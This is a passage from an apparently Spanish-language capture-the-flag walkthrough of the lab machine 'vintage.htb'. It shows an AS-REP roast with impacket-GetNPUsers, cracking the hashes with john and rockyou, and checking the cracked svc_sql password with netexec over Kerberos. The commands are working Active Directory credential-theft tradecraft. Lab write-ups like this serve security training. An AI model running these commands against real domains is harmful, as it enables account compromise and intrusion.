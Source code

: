 ### Performing an AS-REP Roast Attack again (GetNPUsers)

Debido que hemos habilitado a esos 3 usuarios la opción del (DONT\_REQ\_PREAUTH) de Kerberos, al realizar nuevamente un **AS-REP Roast Attack** verificamos que hemos obtenido los 3 hashes de las 3 cuentas modificadas.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt vintage.htb/ 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/2732_vmware_IXXDDjlEDq.png" alt=""><figcaption></figcaption></figure>

Guardaremos los 3 hashes obtenidos en el archivo llamado "hashes" y a través de la herramienta de **john**, procederemos a intentar crackear los hashes para obtener la contraseña en texto plano.

En este caso, nos logra crackear el hash del usuario "svc\_sql" y obtenemos sus respectivas credenciales en texto plano.

```bash
catnp hashes

john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

<figure><img src="../../../.gitbook/assets/2733_vmware_Uq4yNlE0SI.png" alt=""><figcaption></figcaption></figure>

Validaremos a través de **netexec** de autenticarnos mediante Kerberos (-k) con el usuario y contraseña obtenidos. Comprobamos que efectivamente se tratan de credenciales válidas para el dominio.

```bash
netexec smb dc01.vintage.htb -u 'svc_sql' -p 'Zer0the0ne' -k
```

<figure><img src="../../../.gitbook/assets/2734_vmware_c7QJXzCo4n (1).png" alt=""><figcaption></figcaption></figure>
